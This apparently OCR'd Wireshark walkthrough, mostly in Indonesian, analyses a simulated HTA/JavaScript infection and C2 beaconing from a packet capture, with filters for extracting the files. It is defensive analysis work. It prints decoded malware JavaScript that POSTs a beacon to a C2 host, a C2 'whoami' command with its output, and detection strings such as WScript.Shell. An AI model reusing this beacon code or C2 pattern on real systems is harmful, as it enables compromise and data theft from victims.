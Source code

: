 Detail paket :

1	0.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Host 192.168.1.50 memulai koneksi TCP ke port 80 pada server 198.51.100.20. Flag = SYN (synchronise) berarti awal handshake.
		

2	1.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: Server menjawab SYN+ACK — part kedua dari 3-way handshake. Ack=1 berarti mengakui SYN (seq+1).

3	2.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0	
		Artinya	: Client menyelesaikan handshake dengan ACK. Sekarang koneksi terbuka,
			        Selanjutnya HTTP akan lewat koneksi ini (socket 192.168.1.50:51000 ↔ 198.51.100.20:80).

4	3.000000	192.168.1.50	198.51.100.20	HTTP	132	GET /malicious.hta HTTP/1.1 
		Artinya	: HTTP request GET. Panjang 132 bytes (ini ukuran frame pada capture).
			  Biasanya berisi header: GET /malicious.hta HTTP/1.1, Host: ..., User-Agent, Accept, dll.

		Action	: 1. Expand Hypertext Transfer Protocol di Packet Details → lihat Request Method, Request URI, Host, User-Agent.
			  2. Catat User-Agent (apakah browser atau mshta/wscript?). mshta user-agent bisa menandakan HTA dieksekusi dengan mshta.exe.
			  3. Catat Referer, cookies, any query params.

5	4.000000	198.51.100.20	192.168.1.50	HTTP	545	HTTP/1.1 200 OK  (application/hta)
		Artinya	: Server menjawab dengan HTTP/1.1 200 OK; Content-Type application/hta. Ukuran frame 545 bytes — pasti mengandung body (HTA content).
		
		Action	: 1. Di Packet Details: expand HTTP → lihat header Content-Type, Content-Length, Server, Cache-Control, Last-Modified.
			  2. Follow → TCP Stream pada koneksi ini untuk mengekstrak body HTA. Simpan body (File → Export Objects → HTTP) untuk analisis offline.
			  3. Di body HTA cari: <script> tags, eval(atob(, WScript.Shell, CreateObject("Wscript.Shell"), pemanggilan mshta inline, 
				   atau referensi ke payload.js.

6	5.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim membuka koneksi TCP baru (ephemeral port 51001) ke server:80. Ini tipikal saat browser/mshta membuat koneksi lain 
		          u/ memfetch resource (mis. /payload.js).
		
		Action	: apakah ada pipelining/keep-alive vs koneksi baru; jika server tidak mendukung keep-alive atau mshta requests made in separate sockets.

7	6.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51001 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
8	7.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya	: Handshake Complete

9	8.000000	192.168.1.50	198.51.100.20	HTTP	127	GET /payload.js HTTP/1.1 
		Artinya	: Victim requests JavaScript resource payload.js. Ukuran 127 bytes (header only).

		Action	: sama seperti paket 4 — lihat Host, User-Agent (mshta?), Accept, referer (mengarah ke /malicious.hta), 
		           Connection: keep-alive etc.
		
10	9.000000	198.51.100.20	192.168.1.50	HTTP	428	HTTP/1.1 200 OK  (application/javascript)
		Artinya	: Server returns JS body (Content-Type application/javascript). Body akan mengandung
			        obfuscated JS (mis. eval(atob('<base64>'))) atau XHR routines. Ukuran cukup besar (428 bytes) ->
			  
		Action	: 1. Follow → TCP Stream (for the 51001↔80 stream) and extract payload.js.
			  2. Jika JS contains eval(atob('...')), salin base64 and decode.
			  3. Cari in decoded JS: XHR/fetch calls to C2 (/c2), beacon ids, user-agent spoofing, timing/interval functions.
			  4. hasil decode "function beacon(){var xhr=new XMLHttpRequest();xhr.open('POST','http://198.51.100.30/c2',false);
					   xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('beacon_id=abc123');}
					   beacon();"	

11	10.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim sekarang membuka konkesi ke C2 server 198.51.100.30 melalui port 80 (new handshake). di triggered oleh payload.js (beacon).

		Action	: cek DNS resolution untuk 198.51.100.30 earlier? (Check DNS queries di pcap). jika C2 menggunakan domain, note mapping. 
			  cek juga TTL and MACs.

12	11.000000	198.51.100.30	192.168.1.50	TCP	54	80 → 52000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: server replies SYN+ACK.

13	12.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya : Connection established to C2. Now application data (HTTP POST) will follow.

14	13.000000	192.168.1.50	198.51.100.30	HTTP	186	POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
		Artinya	: Victim posts data ke /c2. Payload type urlencoded — likely beacon_id=abc123 atau yang mirip.
		          Size 186 bytes includes headers + body.

		Action	: 1. Follow → TCP Stream for this TCP connection and view the POST body. Di Wireshark, 
			     expand HTTP → check Line-based text data for POST body.
			  2. Catat Host header (controller.example?), User-Agent, Referer (bisa jadi original HTA host), Content-Length.
			  3. save the POST body (it may contain victim id, OS info, or other metadata). This is direct C2 communication.

15	14.000000	198.51.100.30	192.168.1.50	HTTP	124	HTTP/1.1 200 OK  (text/plain)
		Artinya	: C2 merespon dengan plaintext body — contoh seperti whoami. Size 124 bytes termasuk headers & body.
		
		Action	: Follow TCP stream u/ lihat detail. 
			  Jika detail terdapat whoami, ini adalah perintah agar dapat di eksekusi oleh JS (synchronous XHR).	
				whoami
				output=DOMAIN%5Cvictim_user
				HTTP/1.1 200 OK
				Content-Length: 2

16	15.000000	192.168.1.50	198.51.100.30	HTTP	197	[TCP Out-Of-Order] POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)				
		Artiya	: 1. TCP Out-Of-Order di Wireshark berarti Wireshark menerima paket dengan sequence number yang
			     tidak cocok dengan yang diharapkannya sekarang — contoh: Wireshark sudah menerima paket
			     dengan seq N+X, lalu menerima paket dengan seq N (lebih kecil), atau paket tiba lebih lambat
			     sehingga urutan capture berbeda dari urutan transmisinya. Penyebab umum:
			     a. Paket retransmission dari host karena ACK hilang.
			     b. Jaringan mengalami reordering (multi-path routing).
			     c. Duplikasi atau capture artifact (capture point sees packets via two interfaces).	

			 2. Paket 16 adalah POST lagi (kemungkinan berisi output dari eksekusi perintah whoami,
			    atau POST kedua dengan hasil). Karena ada POST sebelumnya (paket 14), paket 16 bisa:
			    a. retransmit dari victim karena ACK sebelumnya belum diterima/sampai; atau
			    b. permintaan baru yang dikirim segera setelah menerima command; namun label Out-Of-Order 
					   menunjukkan seq/ack tidak runtun menurut Wireshark.

17	16.000000	198.51.100.30	192.168.1.50	HTTP	94	HTTP/1.1 200 OK 
		Artinya	: C2 mengakui POST terakhir; final 200 OK
			  Cek Body u/ konfirmasi OK.


langkah-Langkah Cek di wireshark :

		1.	ip.src == 192.168.1.50 && ip.dst == 198.51.100.20 && http
		2.	TCP streams (right-click → Follow → TCP Stream) dan simpan body (Save as).
		3.	Extract Hta/Js : Menu File → Export Objects → HTTP → cari entry /malicious.hta dan /payload.js → Save.
					 ika JS berisi eval(atob('...')) → copy base64 string → decode:
		4.	Periksa C2 POST bodies: 
						ip.addr==192.168.1.50 && ip.addr==198.51.100.30 && http.request.method == "POST"
			Follow TCP Stream untuk melihat form body (beacon_id=..., output=...) dan server responses.
		5.	Analisa Out-Of-Order:
						Pilih packet 16 → Packet Details → TCP → lihat Seq/Ack.
						Gunakan Analyze → Expert Information untuk melihat apakah Wireshark menandai 
								  Retransmission/Out-of-Order/Duplicate ACK.						 
